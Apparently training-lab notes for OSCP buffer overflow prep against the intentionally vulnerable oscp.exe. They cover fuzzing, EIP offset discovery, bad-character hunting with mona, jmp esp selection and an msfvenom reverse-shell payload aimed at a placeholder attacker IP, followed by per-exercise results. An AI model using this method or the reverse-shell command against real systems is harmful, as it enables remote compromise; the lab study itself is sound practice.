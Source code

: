 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1

**Crash Replication and Controlling EIP**

Fuzz the server until it crashes then note the byte value. Use the metasploit tool 
pattern_create.rb to create a cyclic pattern 400 bytes longer than the value that crashed 
the server (2400).

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`

Copy the output and place it in the payload variable in exploit.py.

Run oscp.exe in Immunity Debugger and run exploit.py then, when the server has crashed, run 
`!mona findmsp -distance 2400` to find the EIP offset or use the formula: 
EIP offset = (ESP - 4) - (EAX + BYTE("OVERFLOW1_")).

Set the offset in exploit.py to the offset value here:
`EIP contains normal pattern : ... (offset XXXX)`

And set retn to BBBB in exploit.py and delete the payload.

Run the exploit and the EIP should be overwritten with 4 B's (42424242)

badchars: `\x00\x07\x08\x2e\x2f\xa0\xa1`

[Fuzzing script](./fuzzing.py)
[Exploit script](./exploit.py)

**Finding bad chars**

Create a bytearray with mona `!mona bytearray -b "\x00"` 
*Note: -b is deprecated and was replaced by -cpb*

Use python to generate a string of bad chars identical to the bytearray

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Paste the generated badchars into the payload variable in exploit.py and run it.

Copy the ESP register in ImmunityDebugger and use it in the following mona command:
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup called mona memory comparison results should appear with the badchars

Update the bytearray with mona and the exploit payload, removing the badchars from the popup

Repeat the process until the popup returns a status of Unmodified, indicating no more 
badchars remain.

**Finding a Jump Point**

Run `!mona jmp -r esp -cpb <badchars>` to find all jmp esp instructions with addresses that 
don't contain any of the specified badchars

Copy one of the addresses and use it to set the retn variable in exploit.py.

The addresses are in little endian so need to be reversed.

**Generate Payload**

Use msfvenom to generate the payload 
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 EXITFUNC=thread -b <BADCHARS> -f c`

Update the payload variable to use the shellcode using the following formatting:
```
payload = ("\xba\xbf\xef\xf4\xc3\xd9\xf6\xd9\x74\x24\xf4\x5e\x29\xc9"
...
"\x89")
```

**Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory 
for the payload to unpack itself. 

You can do this by setting the padding variable to a string of 16 or more "No Operation" 
(\x90) bytes 
`padding = "\x90" * 16`

**Exploit!**

Start netcat listener on the attacking machine and run exploit.py to gain a shell on the 
target.

### oscp.exe - OVERFLOW2

Fuzzing crashed the target at 700 bytes

EIP offset is 634

Found badchars: "\x00\x23\x3c\x83\xba"

Found jump point: 625011AF 

### oscp.exe - OVERFLOW3

Fuzzing crashed at 1300 bytes

EIP offset is 1274

Badchars are: "\x00\x11\x40\x5f\xb8\xee" 

Found jump point: 62501203

### oscp.exe - OVERFLOW4

Fuzzing crashed at: 2100 bytes

EIP offset is: 2026

Badchars are: \x00\xa9\xcd\xd4

Found jump point: 625011AF

### oscp.exe - OVERFLOW5

Fuzzing crashed at: 400 bytes

EIP offset is: 314

Badchars are: \x00\x16\x2f\xf4\xfd

Found jump point: 625011AF

### oscp.exe - OVERFLOW6

Fuzzing crashed at: 1100 bytes

EIP offset is: 1034

Badchars are: \x00\x08\x2c\xad

Found jump point:
